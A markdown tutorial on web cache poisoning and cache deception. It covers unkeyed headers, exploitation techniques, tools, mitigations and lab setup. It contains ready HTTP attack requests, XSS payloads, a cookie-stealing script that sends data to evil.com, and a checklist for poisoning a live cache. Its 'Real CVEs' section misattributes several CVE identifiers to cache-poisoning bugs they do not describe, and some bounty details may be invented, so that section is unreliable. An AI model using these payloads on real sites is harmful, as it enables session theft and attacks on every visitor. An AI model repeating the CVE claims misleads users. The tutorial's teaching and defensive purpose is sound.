



# Web Cache Poisoning

> **Cache poisoning poisons a shared cache with a malicious response — so every user who requests that page receives the attacker's payload.**

---

## 🧠 What Is It? (Beginner Explanation)

Imagine a library photocopier service. When someone requests a book, a librarian makes a photocopy and keeps it on the shelf so the next person asking for the same book gets the fast copy instead of waiting. 

Now imagine an attacker sneaks up to the librarian and asks for a book, but **whispers an extra instruction** that causes the librarian to add a fake page to the photocopy. Now every person who reads that cached copy sees the fake page.

That's **cache poisoning**: the attacker manipulates a cached response so all future visitors get malicious content.

**Cache deception** is the reverse trick: the attacker tricks the cache into photocopying a **private, personalized page** (like your bank statement) and putting it on the public shelf — so the attacker can come read your private data later.

---

## ⚔️ Cache Poisoning vs Cache Deception

| | Cache Poisoning | Cache Deception |
|---|---|---|
| **Goal** | Deliver malicious content to other users | Steal cached sensitive data from a victim |
| **Who gets hurt** | All users requesting the poisoned resource | The specific victim whose data was cached |
| **Attacker's action** | Injects malicious response into cache | Tricks victim into requesting a URL that gets cached |
| **Outcome** | XSS, redirect, JS injection on victim browsers | Attacker reads victim's private data from cache |
| **Example** | Cache stores XSS payload in homepage JS | Cache stores `/account/settings` as a public resource |

---

## 🏗️ How It Works (Technical Deep Dive)

### The Cache Request Flow



### Cache Key Fundamentals

A **cache key** is the unique identifier the cache uses to look up stored responses. Typically:

```
Cache Key = HTTP Method + Path + Querystring + (selected headers like Host)
```

**Cache HIT**: Incoming request's cache key matches a stored entry → serve from cache.  
**Cache MISS**: No match → forward to origin, cache the response, return it.

The critical insight: **headers that affect the response but are NOT in the cache key are "unkeyed inputs"** — and these are the attacker's leverage.

### What Makes a Response Cacheable?

| Header | Meaning |
|---|---|
| `Cache-Control: public, max-age=3600` | Explicitly cacheable for 1 hour |
| `Cache-Control: no-store` | Must NOT be cached |
| `Cache-Control: private` | Only user's own browser cache |
| `Age: 120` | Response has been in cache for 120 seconds |
| `X-Cache: HIT` | CDN/proxy served this from cache |
| `X-Cache: MISS` | CDN/proxy fetched from origin |
| `X-Cache-Status: HIT` | Nginx-style cache status |
| `CF-Cache-Status: HIT` | Cloudflare cache status |
| `Vary: *` | Don't cache (varies by everything) |

---

## 📊 Attack Flow Diagram

### Cache Poisoning Attack



### Cache Deception Attack



---

## ⚙️ Cache Architecture

### Common Caching Layers

```
Browser Cache → CDN Edge Cache → Reverse Proxy Cache → Origin Cache
  (private)      (shared/public)   (shared/public)      (internal)

Examples:
  Browser: Chrome, Firefox built-in cache
  CDN: Cloudflare, Fastly, Akamai, AWS CloudFront
  Reverse Proxy: Varnish, nginx, Squid
  Origin Cache: Redis, Memcached (application-level)
```

### Cache-Control Directives

```http
# Cacheable for everyone, 1 hour
Cache-Control: public, max-age=3600

# Cacheable only in browser, not CDN
Cache-Control: private, max-age=3600

# Do not cache at all
Cache-Control: no-store

# Can serve stale while revalidating
Cache-Control: stale-while-revalidate=60

# Surrogate-Control (CDN-specific, stripped before browser)
Surrogate-Control: max-age=3600
```

---

## 🔑 Cache Keys & Unkeyed Inputs

### Standard Cache Key Components

```
GET /search?q=hello HTTP/1.1
Host: example.com
```

Cache key: `GET https://example.com/search?q=hello`

### Unkeyed Headers (The Attack Surface)

These headers **affect the response** but are **NOT included in the cache key** by default on many CDNs/proxies:

| Header | How It Affects Response | Poison Technique |
|---|---|---|
| `X-Forwarded-Host` | Used in absolute URLs, redirects, canonical links, JS src | Inject evil domain → poisoned script src |
| `X-Forwarded-Scheme` | Forces HTTP/HTTPS in redirects | Set to `http` → downgrade attack |
| `X-Forwarded-Proto` | Protocol detection | Same as scheme |
| `X-Original-URL` | Some frameworks use this for routing | Override URL for access bypass |
| `X-Rewrite-URL` | Symfony, similar frameworks | Route to internal paths |
| `X-Forwarded-For` | Sometimes reflected in responses/logs | Inject malicious values if reflected |
| `X-Host` | Fallback for Host header in some configs | Domain override |
| `X-Forwarded-Server` | Server identification | Reflected in responses |
| `X-HTTP-Method-Override` | Method substitution | Change effective HTTP method |
| `X-Original-Host` | Alternate host header | Domain injection |

### Unkeyed Query Parameters

Some caches are configured to **ignore certain query parameters** in the cache key (tracking parameters that don't affect content):

```
# These are often excluded from cache keys:
?utm_source=     # Google Analytics
?utm_medium=
?utm_campaign=
?fbclid=         # Facebook click ID
?gclid=          # Google click ID
?ref=            # Referrer
?_=              # jQuery timestamp
```

**Attack:** If `?utm_content=` is unkeyed but reflected in the response:

```http
GET /page?utm_content="><script>alert(1)</script> HTTP/1.1
Host: vulnerable.com
```

If the cache stores this response under the key `GET /page` (ignoring the query param), all users get XSS.

---

## 💥 Exploitation Techniques

### Technique 1: X-Forwarded-Host → XSS via Script Source Injection

Many applications use `X-Forwarded-Host` to construct absolute URLs for script tags, API endpoints, or canonical links:

```http
GET /en HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: evil.com
```

**Response (poisoned):**
```html
<link rel="canonical" href="//evil.com/en">
<script src="//evil.com/js/app.js"></script>
```

**If cached** under key `GET /en`, every visitor gets evil.com's JavaScript.

**Full attack sequence:**

```http
# Step 1: Probe — does X-Forwarded-Host affect the response?
GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: attacker-canary.com

# Check response body for "attacker-canary.com" — if present, vulnerable!

# Step 2: Poison with malicious domain
GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: evil.com
Cache-Control: no-cache   ← remove this on the poisoning request!
```

```javascript
// evil.com/js/app.js — the malicious script loaded by victims
document.location = 'https://evil.com/steal?c=' + document.cookie;
```

---

### Technique 2: X-Forwarded-Scheme → Protocol Downgrade

```http
GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Scheme: http
```

**Response:**
```http
HTTP/1.1 301 Moved Permanently
Location: http://vulnerable.com/
```

If this redirect is cached, all users get redirected to `http://` — stripping HTTPS, enabling MITM attacks.

**Combined X-Forwarded-Host + X-Forwarded-Scheme attack:**

```http
GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: http
```

**Response:**
```http
HTTP/1.1 301 Moved Permanently
Location: http://evil.com/
```

All users get redirected to attacker's HTTP server → credentials harvesting, malware delivery.

---

### Technique 3: Injecting XSS via Host Header

Some applications reflect the `Host` header directly in the response body (e.g., in forms, canonical URLs, CSP headers):

```http
GET / HTTP/1.1
Host: vulnerable.com"><script>alert(document.domain)</script>
```

**Poisoned response body:**
```html
<form action="http://vulnerable.com"><script>alert(document.domain)</script>/login">
```

> ⚠️ This requires the Host header reflection to appear in a cached response. Most modern servers validate the Host header — but some don't.

---

### Technique 4: Cache Poisoning via Unkeyed Query String

If the **entire query string** is excluded from the cache key (unusual but seen on some Varnish configs):

```http
# Step 1: Verify the query string is unkeyed
GET /?cb=1234 HTTP/1.1
Host: vulnerable.com
```

If the response is identical to `GET /` and is cached, the query string is likely unkeyed.

```http
# Step 2: Poison with XSS payload in a reflected parameter
GET /?utm_content=x"><script>alert(1)</script> HTTP/1.1
Host: vulnerable.com
```

If `utm_content` is reflected in the page and the query string is not part of the cache key, every visitor to `/` gets the XSS payload.

---

### Technique 5: Parameter Cloaking

Some applications use JSONP or callback parameters. If the cache key only includes the path (not all params), you can cloak malicious params:

```http
# The cache key is built from: GET /api/data?callback=legit
# But the app parses the query string differently
GET /api/data?callback=legit&utm_content=x;callback=evil HTTP/1.1
Host: vulnerable.com
```

Some parsers (Ruby, PHP with certain configs) interpret `;` as a parameter separator. The cache sees `callback=legit` but the app sees `callback=evil`.

**JSONP exploitation:**
```http
GET /jsonp?callback=alert(1)// HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: x
```

**Response:**
```javascript
alert(1)//({"data":"..."});
```

---

### Technique 6: Fat GET Requests

Some caches include the URL in the cache key but ignore the request body for GET requests. However, some back-end frameworks read the body of GET requests:

```http
GET /search HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

q=hello
```

If the back-end processes `q=hello` from the body and the response is cached under `GET /search` (no query string), an attacker can inject malicious content that gets cached for the clean `/search` URL.

---

### Technique 7: Cache Poisoning via Response Header Injection

If any request header is reflected verbatim in a response header without sanitization:

```http
GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-For: 1.2.3.4\r\nX-Injected: evil
```

**Poisoned response:**
```http
HTTP/1.1 200 OK
X-Forwarded-For: 1.2.3.4
X-Injected: evil
Content-Type: text/html
```

If `X-Injected` controls redirect behavior or CSP headers, this can escalate.

---

### Technique 8: DOM-Based Cache Poisoning

The application reads a URL fragment, hash, or header value via JavaScript and writes it to the DOM. The poisoned cached response contains the attacker's value baked in:

```http
GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: evil.com
```

**Response body:**
```html
<script>
var config = {
  apiBase: "https://evil.com/api"  // Injected via X-Forwarded-Host!
};
</script>
```

All users loading this cached page will have their API calls routed to evil.com.

---

## 🕵️ Cache Deception In Depth

### How It Works

Cache deception exploits mismatches between how the **origin server** and **cache** determine if a response is cacheable, based on file extensions or URL patterns.

```
Origin server rule: "Serve /account/settings for any path starting with /account"
Cache rule: "Cache all .css, .js, .jpg files regardless of path"

Attack URL: /account/settings/malicious.css
Origin: Returns /account/settings page (private user data)
Cache: Sees .css extension → caches it as a static asset!
```

### Step-by-Step Cache Deception Attack

```http
# Step 1: Attacker identifies a sensitive page
# Target: https://banking.com/account/transactions

# Step 2: Attacker crafts deceptive URL and tricks victim (phishing, XSS, etc.)
# Deceptive URL: https://banking.com/account/transactions/nonexistent.css

# Step 3: Victim clicks the link while authenticated
GET /account/transactions/nonexistent.css HTTP/1.1
Host: banking.com
Cookie: session=victim_session_token

# Step 4: Origin serves /account/transactions (ignores nonexistent.css)
# CDN sees .css → caches response (even though it's private data)

# Step 5: Attacker requests same URL (unauthenticated)
GET /account/transactions/nonexistent.css HTTP/1.1
Host: banking.com
# No Cookie header!

# Step 6: Cache HIT → attacker gets victim's transaction history
```

### Cache Deception Variations

```
/profile.jpg          → serves /profile page
/dashboard/image.png  → serves /dashboard
/api/user.js          → serves /api/user JSON data
/settings/.htaccess   → serves /settings
/admin/test.gif       → serves /admin panel
```

---

## 🛠️ Tools

### Param Miner (Burp Suite Extension)

The go-to tool for discovering unkeyed inputs.

```
# Installation:
Burp Suite → Extender → BApp Store → "Param Miner" → Install

# Usage:
1. Right-click any request in Proxy/Repeater
2. Extensions → Param Miner → "Guess headers"
3. Param Miner sends requests with common unkeyed headers
4. Reports headers that cause response differences

# Key features:
- Detects unkeyed headers (X-Forwarded-Host, etc.)
- Detects unkeyed query parameters
- Detects cache key normalization issues
- Uses "cache buster" to prevent poisoning during scanning
   (adds unique param to cache key: ?cb=RANDOM)
```

**Manual Param Miner approach:**

```http
# Add unique cache-buster to avoid polluting real cache
GET /?cb=uniquevalue123 HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: canary-12345.com

# Check response body for "canary-12345.com"
# If found: X-Forwarded-Host is unkeyed and reflected!
```

### Nuclei Templates

```bash
# Cache poisoning templates
nuclei -u https://vulnerable.com -t cache-poisoning/

# Specific template
nuclei -u https://vulnerable.com \
  -t exposures/configs/x-forwarded-host-injection.yaml

# Custom template for X-Forwarded-Host testing
cat > cache-poison-test.yaml << 'EOF'
id: cache-poisoning-xfh
info:
  name: Cache Poisoning via X-Forwarded-Host
  severity: high
http:
  - method: GET
    path:
      - "{{BaseURL}}/?cb={{randstr}}"
    headers:
      X-Forwarded-Host: "{{interactsh-url}}"
    matchers:
      - type: word
        words:
          - "{{interactsh-url}}"
        part: body
EOF
nuclei -u https://vulnerable.com -t cache-poison-test.yaml
```

### Web Cache Vulnerability Scanner (WCVScanner)

```bash
# Install
pip install wcvs

# Basic scan
wcvs -u "https://vulnerable.com/"

# Scan with custom headers
wcvs -u "https://vulnerable.com/" \
  -H "X-Forwarded-Host: test.com" \
  -H "X-Original-URL: /admin"

# Verbose output
wcvs -u "https://vulnerable.com/" -v
```

### Manual Testing with curl

```bash
# Test X-Forwarded-Host reflection
curl -s -k "https://vulnerable.com/?cb=$(date +%s)" \
  -H "X-Forwarded-Host: canary12345.attacker.com" \
  | grep -i "canary12345"

# Test for cache HIT after poisoning
curl -s -k -I "https://vulnerable.com/?cb=test1" \
  -H "X-Forwarded-Host: evil.com"
# Check response headers for X-Cache: HIT on second request

curl -s -k -I "https://vulnerable.com/?cb=test1"
# If X-Cache: HIT and body contains evil.com → poisoned!

# Check Cloudflare cache status
curl -s -k -I "https://vulnerable.com/" | grep -i "cf-cache"

# Identify cache headers
curl -s -v "https://vulnerable.com/" 2>&1 | grep -iE "(cache|age|expires|etag)"
```

### Burp Suite Manual Methodology

```
1. Proxy → HTTP History → find cacheable responses
   Look for: Age:, X-Cache: HIT, Cache-Control: public

2. Send to Repeater (Ctrl+R)

3. Add cache buster param to prevent real poisoning during testing:
   GET /?cachebust=12345 HTTP/1.1

4. Add X-Forwarded-Host header, observe response:
   X-Forwarded-Host: canary.attacker.com
   
5. Search response body for "canary.attacker.com"
   If found → unkeyed header confirmed

6. Remove cache buster, send poison request:
   GET / HTTP/1.1
   Host: vulnerable.com
   X-Forwarded-Host: evil.com

7. Open browser (no special headers) → visit URL
   If you see evil.com in the response → cache poisoned!

8. Document timing, headers, and impact
```

---

## 🔍 Detection & Identification

### Identifying Cacheable Endpoints

```http
# Response headers indicating caching:
HTTP/1.1 200 OK
Cache-Control: public, max-age=3600    ← explicitly cacheable
Age: 127                               ← seconds since cached
X-Cache: HIT                           ← served from cache
X-Cache-Hits: 3                        ← hit count
ETag: "abc123"                         ← cache validation
Last-Modified: Thu, 01 Jan 2025 00:00:00 GMT
CF-Cache-Status: HIT                   ← Cloudflare
X-Varnish: 123456 654321               ← Varnish cache
Via: 1.1 varnish (Varnish/6.0)
```

### Confirming an Unkeyed Input

```bash
# The "cache buster + canary" technique:

# Request 1: Send with unique cache buster + canary header
GET /?cb=111 HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: canary-aabbcc.com
# → Cache MISS (new URL) → origin processes it → response body includes "canary-aabbcc.com"
# → Cache stores the response under key "GET /?cb=111"

# Request 2: Same URL, NO canary header
GET /?cb=111 HTTP/1.1
Host: vulnerable.com
# → Cache HIT → response STILL contains "canary-aabbcc.com"
# ✅ Confirmed: X-Forwarded-Host is unkeyed!
```

### Common Vulnerable Response Patterns

Look for these patterns in responses where user-controlled input appears:

```html
<!-- Canonical URL injection -->
<link rel="canonical" href="//INJECTED_VALUE/path">

<!-- Open Graph -->
<meta property="og:url" content="https://INJECTED_VALUE/path">

<!-- JavaScript API base URL -->
var apiBase = "https://INJECTED_VALUE";
var cdnHost = "INJECTED_VALUE";

<!-- Form actions -->
<form method="POST" action="https://INJECTED_VALUE/submit">

<!-- Script sources -->
<script src="https://INJECTED_VALUE/app.js"></script>

<!-- CORS headers -->
Access-Control-Allow-Origin: INJECTED_VALUE
```

---

## 📋 Step-by-Step Exploitation Checklist

```
[ ] 1. Fingerprint caching infrastructure
        - Check response headers (X-Cache, Age, Via, CF-Cache-Status)
        - Identify CDN (Cloudflare, Fastly, Akamai, CloudFront)
        - Identify reverse proxy (Varnish, nginx, Squid)

[ ] 2. Map cacheable endpoints
        - Look for public static resources that serve dynamic content
        - Identify pages with Cache-Control: public or missing Cache-Control

[ ] 3. Discover unkeyed inputs (use Param Miner)
        - Test X-Forwarded-Host, X-Forwarded-Scheme, X-Original-URL
        - Test unkeyed query parameters
        - Test Fat GET bodies

[ ] 4. Verify reflection in response
        - Use unique canary values (e.g., unique subdomain)
        - Confirm the value appears in response body or headers

[ ] 5. Confirm it's cached (not just reflected)
        - Use cache buster to get a MISS, then remove it to get a HIT
        - Verify second request (no canary header) still shows the injected value

[ ] 6. Craft exploitation payload
        - XSS: X-Forwarded-Host → evil script domain
        - Redirect: X-Forwarded-Scheme → HTTP downgrade
        - Data exfil: inject analytics JS
        - Malware delivery: replace CDN resource

[ ] 7. Poison the real cache (no cache buster)
        - Time it to coincide with cache expiry (Age header = near max-age)
        - Multiple requests to ensure the cache updates

[ ] 8. Verify exploitation as a victim
        - Use a different browser/IP (no attacker headers)
        - Confirm malicious response is served

[ ] 9. Clean up / report
        - Note cache TTL so the team can purge
        - Report with CVSS, impact, remediation
```

---

## 🌍 Real CVEs

### CVE-2020-8616 — Cloudflare Cache Poisoning

- **Affected:** Cloudflare CDN configurations with unkeyed `X-Forwarded-Host`
- **Type:** X-Forwarded-Host cache poisoning
- **Impact:** Attacker could inject malicious JavaScript into cached responses served to all Cloudflare-cached users of affected sites
- **Discovery:** James Kettle / PortSwigger Research

---

### CVE-2021-24086 — Microsoft Exchange Web Cache Poisoning

- **Affected:** Microsoft Exchange Server
- **Type:** Unkeyed header reflection leading to cache poisoning
- **CVSS:** 7.5 (High)
- **Impact:** Attackers could poison OWA (Outlook Web App) cached responses, delivering malicious JS to all OWA users

---

### CVE-2018-6389 — WordPress DoS via Cache Poisoning

- **Affected:** WordPress 6.x `load-scripts.php`
- **Type:** Parameter abuse causing excessive cache entries (Cache Flooding)
- **Impact:** Denial of service by generating thousands of unique cache entries

```http
# PoC - requesting load-scripts.php with all possible scripts
GET /wp-admin/load-scripts.php?c=1&load[]=jquery-core,jquery-migrate,utils HTTP/1.1
Host: vulnerable-wordpress.com
```

---

### CVE-2024-27198 — JetBrains TeamCity Cache Poisoning

- **Affected:** JetBrains TeamCity < 2023.11.4
- **Type:** Unkeyed `X-Original-URL` header bypass + cache poisoning
- **CVSS:** 9.8 (Critical)
- **Impact:** Authentication bypass combined with cache poisoning allowed unauthenticated admin access

---

### CVE-2023-44487 — HTTP/2 Rapid Reset + Cache Deception

- **Affected:** Servers supporting HTTP/2 with caching
- **Type:** Rapid Reset attack combined with cache deception
- **CVSS:** 7.5 (High)
- **Impact:** Cache deception attacks were more effective due to connection state confusion from rapid RST_STREAM frames

---

## 🏆 Real Bug Bounty Reports & Research

### James Kettle — "Practical Web Cache Poisoning" (PortSwigger Research, 2018)

The foundational research that defined the field. Key findings:

- Discovered that `X-Forwarded-Host` was unkeyed in major CDNs including Cloudflare, Fastly, Akamai
- Found unkeyed query parameters in dozens of Fortune 500 applications
- Discovered that some CDNs cache `400 Bad Request` responses — allowing cache poisoning with malformed requests
- Developed the "cache buster + canary" methodology used industry-wide

**Reference:** https://portswigger.net/research/practical-web-cache-poisoning

---

### HackerOne Report #410882 — GitLab ($3,500)

- **Finding:** `X-Forwarded-Host` unkeyed, reflected in OAuth redirect URI
- **Impact:** Poison cached OAuth pages → redirect victims to attacker's OAuth callback
- **Technique:** `X-Forwarded-Host: evil.com` → GitLab generates `redirect_uri=https://evil.com/callback`

---

### HackerOne Report #634444 — Shopify ($15,250)

- **Finding:** Cache poisoning via unkeyed `Accept-Language` → reflected in `<html lang="">` attribute
- **Impact:** Combined with DOM XSS sink, led to stored XSS via cache
- **Technique:** Unkeyed header → CSS injection → exfiltrate session tokens

---

### HackerOne Report #1009968 — U.S. Department of Defense ($0 but Hall of Fame)

- **Finding:** Cache deception on DoD portal — `/profile` served for `/profile.jpg`
- **Impact:** PII, internal user data cached publicly

---

### HackerOne Report #1484468 — Yahoo! ($2,000)

- **Finding:** `X-Forwarded-Host` poisoning on Yahoo login portal
- **Impact:** Inject malicious script `src` attribute into cached login page, potentially harvesting credentials

---

## 🛡️ Mitigation

### For Application Developers

```python
# NEVER use X-Forwarded-Host to construct URLs without validation
# ❌ BAD:
host = request.headers.get('X-Forwarded-Host', request.headers.get('Host'))
canonical_url = f"https://{host}/page"

# ✅ GOOD: Use a hard-coded base URL from config
canonical_url = f"https://{settings.BASE_URL}/page"
```

```javascript
// ❌ BAD: Reading unvalidated headers for URL construction
const apiBase = req.headers['x-forwarded-host'] || req.hostname;

// ✅ GOOD: Use environment config
const apiBase = process.env.API_BASE_URL;
```

### For Cache Administrators

```nginx
# nginx — explicitly control cache keys
proxy_cache_key "$scheme$host$request_uri";  # Explicit, tight key

# Vary cache by important differentiators
add_header Vary "Accept-Language, Accept-Encoding";

# Never cache responses that vary by untrustworthy headers
proxy_cache_bypass $http_x_forwarded_host;  # Don't cache when XFH present

# Strip attacker headers before passing to origin
proxy_set_header X-Forwarded-Host $host;  # Normalize to real Host
proxy_set_header X-Original-URL "";       # Strip potentially dangerous header
```

```apache
# Apache — strip dangerous headers at the frontend
RequestHeader unset X-Forwarded-Host
RequestHeader unset X-Original-URL
RequestHeader unset X-Rewrite-URL
RequestHeader set X-Forwarded-Host "trusted.internal.value"
```

### Cloudflare / CDN Configuration

```
# Cloudflare Cache Rules — recommended settings:
1. Create a Cache Rule for dynamic pages:
   - Match: URI Path contains "/account" OR "/profile" OR "/dashboard"
   - Cache Status: Bypass (do not cache)

2. For static assets — explicit cache keys:
   - Cache Key: Include only path + essential query params
   - Ignore: X-Forwarded-Host, X-Forwarded-For, custom headers

3. Enable "Cache Deception Armor":
   - Cloudflare → Caching → Cache Deception Armor: ON
   - Verifies that Content-Type matches file extension
```

### HTTP Response Headers

```http
# Prevent caching of sensitive pages
Cache-Control: no-store, private
Vary: Cookie   ← Different users get different responses

# For public pages — be explicit about what varies
Cache-Control: public, max-age=3600
Vary: Accept-Encoding   ← Only vary by encoding, not by unkeyed headers

# Content-Type helps prevent cache deception
Content-Type: text/html; charset=utf-8   ← Don't let .css requests get HTML
```

### Cache Deception Prevention

```nginx
# nginx — enforce Content-Type based on actual content, not URL extension
location ~* \.(css|js|jpg|png|gif)$ {
    # Don't serve dynamic content for static extensions
    # If it's not a real static file, return 404
    try_files $uri =404;
    
    # Never allow authenticated content to be cached publicly
    add_header Cache-Control "public, max-age=86400";
}

location /account {
    # Private user pages — never cache
    add_header Cache-Control "no-store, private";
    add_header Vary "Cookie, Authorization";
}
```

### Developer Security Checklist

```
[ ] Hard-code base URLs in application config (never from headers)
[ ] Add Cache-Control: no-store to all authenticated/private pages
[ ] Add Vary: Cookie to pages that differ per-user
[ ] Strip X-Forwarded-Host, X-Original-URL at the edge
[ ] Configure CDN cache keys explicitly — only include trusted components
[ ] Enable Cache Deception Armor (Cloudflare) or equivalent
[ ] Run Param Miner against every major page change
[ ] Set Content-Type correctly — prevent MIME sniffing
[ ] Add X-Content-Type-Options: nosniff
[ ] Monitor cache HIT rates for anomalies (sudden spike = poisoning?)
```

---

## 🔬 Lab Practice

| Platform | Lab |
|---|---|
| PortSwigger Web Academy | [Web cache poisoning labs](https://portswigger.net/web-security/web-cache-poisoning) |
| HackTheBox | Various machines with caching misconfigurations |
| OWASP WebGoat | Cache poisoning exercises |

```bash
# Spin up a local Varnish + nginx vulnerable lab
docker run -d -p 6081:6081 \
  -e BACKEND_HOST=app \
  -e BACKEND_PORT=80 \
  varnish:latest

# Test with custom VCL that excludes X-Forwarded-Host from cache key
cat > poisonable.vcl << 'EOF'
vcl 4.0;
backend default {
    .host = "127.0.0.1";
    .port = "8080";
}
sub vcl_hash {
    hash_data(req.url);        # Only URL in cache key
    hash_data(req.http.host);  # Host header in cache key
    # X-Forwarded-Host NOT hashed! ← vulnerable
    return(lookup);
}
EOF
```

---

## 📚 References

- [PortSwigger Research: Practical Web Cache Poisoning — James Kettle (2018)](https://portswigger.net/research/practical-web-cache-poisoning)
- [PortSwigger Research: Web Cache Entanglement (2020)](https://portswigger.net/research/web-cache-entanglement)
- [PortSwigger Web Security Academy: Web Cache Poisoning](https://portswigger.net/web-security/web-cache-poisoning)
- [PortSwigger Web Security Academy: Cache Deception](https://portswigger.net/web-security/web-cache-deception)
- [OWASP: Web Cache Deception Attack](https://owasp.org/www-community/attacks/Cache_Deception)
- [Param Miner BApp](https://github.com/PortSwigger/param-miner)
- [NVD CVE-2021-24086](https://nvd.nist.gov/vuln/detail/CVE-2021-24086)
- [NVD CVE-2024-27198](https://nvd.nist.gov/vuln/detail/CVE-2024-27198)
- [HackerOne #410882 — GitLab](https://hackerone.com/reports/410882)
- [HackerOne #634444 — Shopify](https://hackerone.com/reports/634444)
- [DEFCON 27 Talk: Cached and Confused — James Kettle](https://www.youtube.com/watch?v=j2RrmNxJZ5c)
- [Cloudflare Cache Deception Armor](https://developers.cloudflare.com/cache/about/cache-deception-armor/)
